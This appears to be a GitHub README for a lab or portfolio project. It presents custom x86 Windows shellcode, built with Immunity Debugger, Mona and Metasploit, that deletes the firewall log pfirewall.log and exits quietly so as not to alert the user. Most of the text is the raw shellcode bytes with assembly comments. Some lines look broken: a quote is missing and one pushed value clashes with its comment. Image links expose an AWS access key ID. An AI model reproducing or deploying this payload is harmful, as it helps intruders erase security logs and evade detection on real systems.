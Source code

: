 # Custom-Shellcode

<h2>Description</h2>
Project consists of a custom shellcode that would delete pfirewall.log.
<br />

<h2>Languages and Utilities Used</h2>

- <b>Putty (Linux)</b>
- <b>Immunity Debugger</b>
- <b>Mona</b>
- <b>Metasploit</b>


<h2>Environments Used </h2>

- <b>Amazon WorkSpace</b>

<h2>Custom Shellcode</h2>

Gregor, 

Here is the new code that will delete the Firewall log file. I created this custom shellcode that I put in place of the msfvenom one we used in the past.  See script below:

In order to ensure that it works, I created a pfirewall file to save in the C drive. From here, I pushed the pfirewall.log on the stack. I noticed null bytes, so I removed them by adding 0x11111111. I made sure that the code had the correct amount of parameters set then called the remove memory address. To finish the code off, I made sure there would be a clean exit that wouldn’t crash the server. I then ran the shellcode in a new script in a debugger while looking at the file I created. It deleted as soon as I ran the script. Key lesson was to use call instead of jmp because that would crash the server and tip the user. Also, pay attention to the null bytes.


 
#REMOVE NULLBYTES

"\x33\xc0"  xor eax eax

"\xc7\xc3\x5b\x5e\x56\xef MOV EBX, 0xEF565E5B

"\x81\xc3\x11\x11\x11\x11" ADD EBX, 0x11111111

"\x53"  PUSH EBX



#PUSH MY PFIREWALL.LOG ONTO THE STACK

"\x68\x6f\x67\x67\x00"    //PUSH 0x0020676f =log

"\x68\x61\x6c\x6c\x2e"    //PUSH 0x2e6c6c61 = .lla

"\x68\x69\x72\x65\x77"    //PUSH 0x77657269 = weri

"\x68\x6c\x5c\x70\x66"    //PUSH 0x66705c6c = fp\l

"\x68\x65\x77\x61\x6c"    //PUSH 0x6c617765 = lawe

"\x68\x5c\x46\x69\x72"    //PUSH 0x7269465c = riF\

"\x68\x69\x6c\x65\x73"    //PUSH 0x73656c69 = seli

"\x68\x4c\x6f\x67\x46"    //PUSH 0x46676f4c = FgoL

"\x68\x6d\x33\x32\x5c"    //PUSH 0x5c32336d = \23m

"\x68\x79\x73\x74\x65"    //PUSH 0x65747379 = etsy

"\x68\x77\x73\x5c\x53"    //PUSH 0x535c7377 = S\sw

"\x68\x69\x6e\x64\x6f"    //PUSH 0x6f646e69 = odni

"\x68\x43\x3a\x5c\x57"    //PUSH 0x575c3a43 = W\:C

"\x8b\xdc"               // mov ebx,esp



#SET STACK Parameters

"\x53"     push ebx



#CALL A FUNCTION TO DELETE THE FILE

"\x53" push ebx

"\xc7\xc6\xf0\x73\xdc\x73" mov esi, 0x73dc73f0

"\xff\xd6" call, esi remove() 



#EXIT CLEANLY FROM MY SHELLCODE

"\x33\xc0"   //xor eax,eax => eax is now 00000000

"\x50"       //push eax

"\xc7\xc0\xc0\xb3\x8a\x76" // mov eax,0x768ab3c0

"\xff\xe0"  //call eax = launch ExitProcess(0)



<p align="center">
Script<br/>
<img src=https://s3.amazonaws.com/gbstool/submissions2020/268796/pfirewall%20shellcode.PNG?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Date=20240301T150043Z&X-Amz-SignedHeaders=host&X-Amz-Expires=36900&X-Amz-Credential=AKIAJBIZLMJQ2O6DKIAA%2F20240301%2Fus-east-1%2Fs3%2Faws4_request&X-Amz-Signature=fc9e654bcc1244e52fe8f92097832c6495be9b058d2290d285a2fb6b49ad3aeb
<br />

<p align="center">
Script<br/>
<img src=https://s3.amazonaws.com/gbstool/submissions2020/268796/pfirewall%20ropchain.PNG?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Date=20240301T150043Z&X-Amz-SignedHeaders=host&X-Amz-Expires=36900&X-Amz-Credential=AKIAJBIZLMJQ2O6DKIAA%2F20240301%2Fus-east-1%2Fs3%2Faws4_request&X-Amz-Signature=549556d84214813148d905008c752f60627434119c4001e70cf35a95f1071445
<br />

<p align="center">
Script<br/>
<img src=https://s3.amazonaws.com/gbstool/submissions2020/268796/pfirewall%20endcode.PNG?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Date=20240301T150043Z&X-Amz-SignedHeaders=host&X-Amz-Expires=36900&X-Amz-Credential=AKIAJBIZLMJQ2O6DKIAA%2F20240301%2Fus-east-1%2Fs3%2Faws4_request&X-Amz-Signature=1bf61ad5229df916ebc12da77f194304d1da96b0b0a867f8c8fc38c0bee20286
<br />
